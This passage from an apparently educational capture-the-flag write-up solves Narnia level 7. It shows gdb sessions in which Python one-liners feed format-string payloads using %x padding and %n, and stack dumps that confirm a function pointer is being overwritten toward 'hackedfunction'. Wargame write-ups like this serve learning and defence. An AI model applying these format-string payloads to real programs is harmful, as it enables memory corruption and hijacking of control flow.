 So at `0xffffd60c` is the address of `goodfunction`. We need to overwrite that
to point to `0x8048706`, our `hackedfunction`. So as before in [level 05](http://unlogic.co.uk/2015/04/10/solving-narnia-part-2/#level-05)
we use `%n` to try and overwrite this value.

{% highlight console %}
(gdb) r $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*6 + '%n'")

Starting program: /games/narnia/narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*6 + '%n'")
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd60c)
I guess you want to come to the hackedfunction...

Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/40wx $esp
0xffffd5f0:	0xffffd610	0x00000080	0xffffd8a2	0x08048238
0xffffd600:	0xffffd668	0xf7ffda94	0x00000000	0x0000002f
0xffffd610:	0x61616161	0xffffd60c	0x38343038	0x66383332
0xffffd620:	0x64666666	0x66383636	0x64666637	0x30343961
0xffffd630:	0x38343038	0x36306536	0x36313631	0x00313631
0xffffd640:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd650:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd660:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd670:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd680:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb)
{% endhighlight %}
 
The value of *2f* at `0xffffd60c` shows us that our overwrite was successful
and we wrote the value of *47*. We need to write `0x8048706` which is *134514438* in decimal.
So let's add our `%d` in and remember to adjust the number of `%x`s too, so we can see
how much padding we need

{% highlight console %}
(gdb) r $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%d%n'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /games/narnia/narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%d%n'")
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd60c)
I guess you want to come to the hackedfunction...

Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/40wx $esp
0xffffd5f0:	0xffffd610	0x00000080	0xffffd8a2	0x08048238
0xffffd600:	0xffffd668	0xf7ffda94	0x00000000	0x00000031
0xffffd610:	0x61616161	0xffffd60c	0x38343038	0x66383332
0xffffd620:	0x64666666	0x66383636	0x64666637	0x30343961
0xffffd630:	0x38343038	0x31306536	0x37333336	0x37383137
0xffffd640:	0x00000033	0x00000000	0x00000000	0x00000000
0xffffd650:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd660:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd670:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd680:	0x00000000	0x00000000	0x00000000	0x00000000
{% endhighlight %}
